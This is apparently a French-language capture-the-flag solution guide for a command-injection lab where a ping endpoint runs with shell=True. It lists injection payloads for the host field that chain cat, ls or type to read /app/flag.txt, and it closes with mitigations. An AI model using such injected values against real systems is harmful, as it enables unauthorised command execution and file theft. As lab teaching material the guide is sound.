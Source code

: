 # Command Injection — Guide de résolution

## Contexte
Le backend exécute `ping` avec `shell=True`, en concaténant directement la valeur de `host` dans la commande. Cela permet d’enchaîner d’autres commandes via des séparateurs de shell.

## Objectif
Injecter une commande après `ping` pour lire le flag monté dans le conteneur (`/app/flag.txt`). La sortie est affichée sur la même page (bloc de résultat après l’exécution du ping).

## Payloads utiles
- Linux/Unix:
	- `127.0.0.1; cat /app/flag.txt`
	- `127.0.0.1 && cat /app/flag.txt`
	- Pour lister: `127.0.0.1; ls -la /app`
- Windows (si l’image le supportait):
	- `127.0.0.1 & type C:\\app\\flag.txt`

Entrez ces valeurs dans le champ `host` (ou via `?host=...`). Le résultat du `cat` apparaît sous la sortie du ping.

## Astuces
- Certains conteneurs n’ont pas `ping` ou certains outils: ici `iputils-ping` a été installé, donc `ping` fonctionne.
- Les commandes longues ou bloquantes peuvent faire échouer la requête (timeout appliqué côté app/web).

## Mitigations (hors CTF)
- Ne pas utiliser `shell=True`, préférer `subprocess.run(["ping", "-c", "1", host], shell=False)`.
- Valider/whitelister strictement `host` (regex d’IP/domaine), ou faire une résolution DNS côté code.
- Échapper correctement et séparer les arguments au lieu de concaténer une chaîne passée au shell.